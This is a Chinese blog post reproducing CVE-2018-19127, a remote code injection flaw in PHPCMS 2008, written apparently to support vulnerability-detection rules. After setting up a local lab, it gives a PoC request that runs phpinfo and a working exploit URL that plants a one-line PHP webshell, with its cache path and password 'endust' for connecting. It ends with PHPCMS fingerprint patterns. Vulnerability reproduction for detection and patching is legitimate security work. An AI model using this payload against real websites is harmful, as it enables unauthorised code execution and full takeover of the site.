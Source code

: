 ```yaml
---
layout:     post
title:      【复现】PHPCMS 2008远程代码注入漏洞
subtitle:   远程代码注入漏洞
date:       2019-09-18
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 远程代码注入漏洞
---
```

## 前言
最近在写指纹规则、漏洞检测和利用规则，因此漏洞复现的文章更新会比较频繁。
## 0x00 漏洞介绍
* 漏洞名称：PHPCMS 2008远程代码注入漏洞
* CVE编号：CVE-2018-19127
* 发布时间：2018-11-28
* 漏洞说明：该漏洞利用向PHPCMS网站路径可控的缓存文件写入任意内容，从而可以写入PHP代码，获取网站WebShell，最终获取到网站的最高权限。
* 影响范围：PHPCMS2008 sp4 及以下版本
* 修复建议：PHPCMS 2008 官方已不再维护，建议升级到 2008 以上的版本

## 0x01 环境搭建
下载源码：[http://www.onlinedown.net/soft/1135853.htm](http://www.onlinedown.net/soft/1135853.htm)
下载完成后，打开phpstudy，解压到WWW目录下面，访问URL：
![图片](../../../../img/phpcms2008_rce_1.png)
根据提示点击安装，下图是配置数据库信息和管理员信息：
![图片](../../../../img/phpcms2008_rce_2.png)

在安装过程中遇到报错的话是mysql版本高了，毕竟这款CMS比较老了。因为TYPE和ENGINE都代表数据库引擎，但type只向下兼容，所以mysql版本太高了不兼容，所以这里需要替换所有文件中存在以下关键词的，替换成-->后面的内容就可以安装成功了：
```
TYPE=MyISAM --> ENGINE=MyISAM 
TYPE=MEMORY --> ENGINE=MEMORY
```

修改完成后，重新配置数据库信息和管理员信息，完成后提交，过五秒提示安装成功：
![图片](../../../../img/phpcms2008_rce_3.png)


## 0x02 检测与利用
### Poc(检测)代码
我通过网上的EXP修改了一下，改为了显示phpinfo信息：
```
http://127.0.0.1/phpcms/type.php?template=tag_(){};@unlink(FILE);assert(phpinfo());{//../rss
```
以下是请求的数据包：
```
GET /phpcms/type.php?template=tag_(){};@unlink(FILE);assert(phpinfo());{//../rss HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: navigate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
```
下图说明了搭建的靶机环境确实存在该漏洞：
![图片](../../../../img/phpcms2008_rce_4.png)


### 利用(EXP)代码
```
/type.php?template=tag_(){};@unlink(FILE);assert($_POST[endust]);{//../rss
```
以下是请求的数据包：
```
GET /phpcms/type.php?template=tag_(){};@unlink(FILE);assert($_POST[endust]);{//../rss HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: navigate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
```

请求完成后，状态码为200的话，就可以尝试通过一句话客户端去连接一下：
```
连接地址：http://localhost/data/cache_template/rss.tpl.php
密码：endust
```

## 0x03 Web指纹
顺便记录一下Phpcms指纹规则：
```
1、<meta name\="generator" content=\"Phpcms (.*?)">
2、<link href="(.*)/phpcms.css(.*)>")
3、<meta content="Phpcms(.*)>")
```

## 0x04 总结
复现挺容易的，就是搭建这个环境花了一点时间，从想放弃到静下心来解决问题，而不是逃避问题，最后通过百度也成功解决了安装报错的问题。
